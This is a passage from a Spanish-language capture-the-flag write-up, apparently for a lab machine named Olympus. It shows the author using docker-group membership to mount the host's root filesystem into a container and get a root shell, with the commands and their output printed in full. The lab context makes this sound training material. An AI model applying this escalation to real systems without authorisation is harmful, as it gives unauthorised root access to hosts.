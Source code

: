 Ahora si ya nos encontramos dentro de la máquina como el usuario *prometheus* y podemos visualizar la flag (user.txt). Ahora nos queda escalar privilegios, así que enumeramos un poco el sistema:

```bash
prometheus@olympus:~$ id
uid=1000(prometheus) gid=1000(prometheus) groups=1000(prometheus),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),111(bluetooth),999(docker)
```

Vemos que nos encontramos dentro del grupo **docker**, así que podemos crear un contenedor montando la raiz `/`:

```bash
prometheus@olympus:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
crete               latest              31be8149528e        3 years ago         450MB
olympia             latest              2b8904180780        3 years ago         209MB
rodhes              latest              82fbfd61b8c1        3 years ago         215MB
prometheus@olympus:~$ docker ps
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                                    NAMES
f00ba96171c5        crete               "docker-php-entrypoi…"   3 years ago         Up 5 hours          0.0.0.0:80->80/tcp                       crete
ce2ecb56a96e        rodhes              "/etc/bind/entrypoin…"   3 years ago         Up 5 hours          0.0.0.0:53->53/tcp, 0.0.0.0:53->53/udp   rhodes
620b296204a3        olympia             "/usr/sbin/sshd -D"      3 years ago         Up 5 hours          0.0.0.0:2222->22/tcp                     olympia
prometheus@olympus:~$ docker run --rm -it -v /:/mnt rodhes bash
cat: /etc/hostip: No such file or directory
root@f51b8f68f6ab:/# cd /mnt
root@f51b8f68f6ab:/mnt# ls -l
total 76
drwxr-xr-x   2 root root  4096 Apr 15  2018 bin
drwxr-xr-x   3 root root  4096 Apr 15  2018 boot
drwxr-xr-x  17 root root  3080 Sep 19 01:03 dev
drwxr-xr-x  85 root root  4096 Apr 15  2018 etc
drwxr-xr-x   3 root root  4096 Apr  4  2018 home
lrwxrwxrwx   1 root root    29 Apr  2  2018 initrd.img -> boot/initrd.img-4.9.0-6-amd64
lrwxrwxrwx   1 root root    29 Apr  2  2018 initrd.img.old -> boot/initrd.img-4.9.0-4-amd64
drwxr-xr-x  16 root root  4096 Apr  2  2018 lib
drwxr-xr-x   2 root root  4096 Apr  2  2018 lib64
drwx------   2 root root 16384 Apr  2  2018 lost+found
drwxr-xr-x   3 root root  4096 Apr  2  2018 media
drwxr-xr-x   2 root root  4096 Apr  2  2018 mnt
drwxr-xr-x   2 root root  4096 Apr  2  2018 opt
dr-xr-xr-x 171 root root     0 Sep 19 01:03 proc
drwx------   4 root root  4096 Apr 15  2018 root
drwxr-xr-x  17 root root   600 Sep 19 05:32 run
drwxr-xr-x   2 root root  4096 Apr 15  2018 sbin
drwxr-xr-x   2 root root  4096 Apr  2  2018 srv
dr-xr-xr-x  13 root root     0 Sep 19 01:03 sys
drwxrwxrwt   8 root root  4096 Sep 19 05:38 tmp
drwxr-xr-x  10 root root  4096 Apr  2  2018 usr
drwxr-xr-x  11 root root  4096 Apr  2  2018 var
lrwxrwxrwx   1 root root    26 Apr  2  2018 vmlinuz -> boot/vmlinuz-4.9.0-6-amd64
lrwxrwxrwx   1 root root    26 Apr  2  2018 vmlinuz.old -> boot/vmlinuz-4.9.0-4-amd64
root@f51b8f68f6ab:/mnt#
```
